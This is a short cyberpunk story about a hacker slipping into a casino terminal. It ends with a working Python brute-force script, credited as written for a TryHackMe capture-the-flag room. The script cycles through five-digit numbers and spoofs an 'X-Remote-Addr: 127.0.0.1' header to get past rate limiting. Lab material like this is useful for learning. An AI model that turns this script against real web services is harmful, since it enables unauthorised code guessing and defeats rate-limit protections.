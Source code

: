 Walking into the casino was almost like walking into an alien world for Rondons. He was not one for public places, so the luxurious gilded walls filled with all manners of people were far from his comfort zone. These were people from the high society of Pullast. All dressed accordingly and with all manner of strange cyberimplants; some more advanced than others.
In his gaze, he nearly went against a waitress, who had to dodge him with a small yelp. - "Uhm oh- sorry." - Muttered Rondons, realizing he was attracting a lot of attention in here. Maybe he should wear less dark clothes when around these places...

\- "Hey!" - A gruff tall guy motioned to the two, stepping closer and closer. Rondons' heart nearly stopped upon seeing this. Had they been found? Dammit! - "Watchdog! Pleasure seeing you around here again mate! What's up?"
\- "Hey Loid! How's it going man!" - Replied Watchdog without skipping a beat with a natural charm and a natural smile. He gave Rondons a smack on the shoulder: - "I'm just showing my friend here the casino!"
\- "Ah I see. You and him just have to come to the corner with me then. I've got a new package of your favourite drinks. You and him are gonna love it!" - Insisted the big man with a grin, pointing to a darker corner of the bar. Rondons notted, unfortunately, that this are contained no eletronics. Crap!
\- "Sure sure! Let me just tell him- " - Rondons felt Watchdog grab his hand, and passing to him a small USB drive in the hidden gesture. A sleight of hand as the jovial hacker added: - "The bathrooms should be on the second floor. And uh- You'll pay me later for that drink eh? Just go there and do what you have to do." 
Rondons understood, though he did stare like a deer in headlights for a moment. He fumbled to put his hands in his pockets, wanting to hide the USB before it was seen. No good, seems like Watchdog would have to stay behind; but now he was already in- and from the man's words... he knew where he could find a terminal.


After a few moments of searching around, Rondons was able to sneak away from the crowds of the lower floor. Soon, he found the terminal that Watchdog had mentioned. A small office that was currently empty. He gazed to the right, then to the left, and entered.
Opening up the terminal, he slipped the USB into the correct port. The file that came up made him smile. That sly dog. Watchdog had prepared a script that would run the brute-force attack for him. This should save some time.


```
# Written by WATCHDOG2000 23/01/2021
# For the Try Hack Me Room 'Sustah'
import requests
import sys
from datetime import datetime

if len(sys.argv) != 2:
	print("[!] - PLEASE ENTER THE URL")
	sys.exit(1)
	
url = sys.argv[1] # url is the first parameter
data = {"number": "SWAPME"} # data we are submitting
custom_headers = {"X-Remote-Addr": "127.0.0.1"} # bypasses the rate elimit from X-RateLimit-limit
lowest = 10000
highest = 99999
start_time = datetime.now() # records the time the script starts, for calculation of how long it has run for.
for i in range(lowest, highest):
	now = datetime.now() # get the current time for runtime of the program
	time_running = now-start_time
	data["number"] = i # set our number to the number to try
	sys.stdout.write(f"\r[*] - TRYING {i} -- RUNNING FOR {str(time_running)} SECONDS -- {str(i - lowest)} REQS IN")
	resp = requests.post(url, data=data, headers=custom_headers) # submit to server, with bypass limit

	if "unlucky" not in resp.text: # we have found the right number!!
		print("\n" + resp.text)
		break
```